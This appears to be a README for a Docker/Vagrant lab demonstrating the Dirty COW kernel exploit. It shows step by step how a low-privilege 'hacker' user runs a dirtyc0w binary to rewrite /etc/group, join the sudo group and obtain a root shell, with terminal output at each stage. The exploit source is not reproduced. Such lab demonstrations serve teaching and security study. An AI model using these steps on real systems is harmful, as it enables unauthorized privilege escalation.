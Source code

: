 # Dirtyc0w Docker POC
```
Prerequisites:
- Vagrant installed

```

# How to use

Firstly clone the project
``
git clone https://github.com/BrolyCode/Dirty-Cow.git 
``
Get into the folder
``
cd Dirty-Cow
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it
```
vagrant ssh
```
change to the root user
```
sudo -i
```
Now we can log on as the hacker 
```
docker exec -it -u hacker nginx bash
```
In the directory we are logged into we have the following files
```
drwxrwxrwt  2 root root  4096 Nov  26 11:10 .
drwxr-xr-x 41 root root  4096 Nov  26 11:10 ..
-rwxr-xr-x  1 root root  9880 Nov  26 04:52 dirtyc0w
-rwxrwxrwx  1 root root  9880 Nov  26 04:52 dirtyc0w.c
```
If we cat the file `/etc/group` we see
```
hacker@27862a2f9973:~$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
....

```

We can try to login as a root
```
sudo -i

```
But the system will refuse to, because We don't have the right to access. We will now exploit the fail on `/etc/group`
```
./dirtyc0w 
```
It will print out the following to the terminal, we must wait a litle bit of time (2/3 minutes).
```
mmap 7fd0facf4000

madvise 0

procselfmem 1500000000
```
Then we will cat `/etc/group` again
```
hacker@27862a2f9973:~$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:hacker
...

```

Login as root
```
sudo -i

root@27862a2f9973:~#
```



# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`
